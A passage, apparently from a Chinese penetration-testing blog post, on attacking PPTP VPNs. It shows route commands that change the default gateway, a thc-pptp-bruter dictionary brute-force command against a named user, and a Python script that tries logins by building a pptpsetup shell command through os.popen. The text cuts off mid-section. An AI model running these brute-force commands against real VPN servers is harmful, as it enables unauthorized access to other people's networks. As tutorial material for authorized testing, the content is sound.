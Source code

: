 2.修改路由表

将默认路由表修改为远程IP

```
route del default
route add default gw 192.168.0.1
```

## 0x05 PPTP口令爆破
---

PPTP服务器默认开放1723端口

### 1、PPTP brute forcer

源代码：

https://github.com/BlackArch/thc-pptp-bruter

kali默认支持

通过字典爆破的命令如下：

```
cat wordlist | thc-pptp-bruter -u zhaodg <IP>
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-9-23/6-1.png)

**注：**

PPTP搭建于centos

### 2、编写python脚本实现

有些设备的PPTP无法使用PPTP brute forcer进行爆破

于是尝试使用python调用pptpsetup实现

通过os.popen执行命令，测试代码如下：

```
import os
def test_vpn(ip,name,password):
	command = 'pptpsetup --create testvpn --server '+ip+' --username '+name+' --password '+password+' --encrypt --start'
	print command
	vpn_status =  os.popen(command).read()
	print vpn_status

if __name__ == '__main__':
	test_vpn('5x.xxx.xxx.xx2','zhaodg','oZ7iFk25')
```

测试过程中出现bug：
